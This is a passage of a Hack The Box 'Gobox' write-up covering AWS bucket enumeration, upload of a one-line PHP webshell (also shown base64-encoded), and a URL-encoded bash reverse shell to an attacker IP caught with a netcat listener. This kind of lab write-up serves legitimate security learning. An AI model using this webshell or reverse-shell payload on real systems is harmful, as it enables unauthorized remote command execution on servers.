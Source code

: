```bash
```

On further enumeration we found out that it has aws installed -

![[Pasted image 20210904123655.png]]

# # `Enumerating aws` -

![[Pasted image 20210904123824.png]]

We found a single bucket names `website`

![[Pasted image 20210904124052.png]]

# # `Webshell` -

We can upload a php webshell to the server -

```bash
root@napster:~/Documents/HTB/Gobox# echo '<?php system($_REQUEST["nap"]); ?>'
<?php system($_REQUEST["nap"]); ?>
root@napster:~/Documents/HTB/Gobox# echo '<?php system($_REQUEST["nap"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsibmFwIl0pOyA/Pgo=
```

Now Upload it to the server -

![[Pasted image 20210904130208.png]]


![[Pasted image 20210904130414.png]]

![[Pasted image 20210904130558.png]]


# # `Reverse Shell` -

Payload - `bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.58/9001+0>%261'`

![[Pasted image 20210904131223.png]]


```bash
root@napster:~/Documents/HTB/Gobox# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.58] from (UNKNOWN) [10.10.11.113] 48338
bash: cannot set terminal process group (838): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gobox:/opt/website$  ls -la
total 1460
drwxr-xr-x 3 www-data www-data    4096 Sep  4 17:03 .
drwxr-xr-x 5 root     root        4096 Aug 24 14:52 ..
-rw-r--r-- 1 www-data www-data 1294778 Aug 24 15:20 bottom.png
drwxr-xr-x 2 www-data www-data    4096 Aug 26 21:26 css
-rw-r--r-- 1 www-data www-data  165551 Aug 24 15:20 header.png
-rw-r--r-- 1 root     root           5 Aug 24 17:17 index.html
-rwxr-xr-x 1 www-data www-data    1803 Aug 24 15:20 index.php
-rw-r--r-- 1 root     root          35 Sep  4 17:03 nap.php
-rw-r--r-- 1 root     root        1111 Sep  4 14:04 shell.php
```

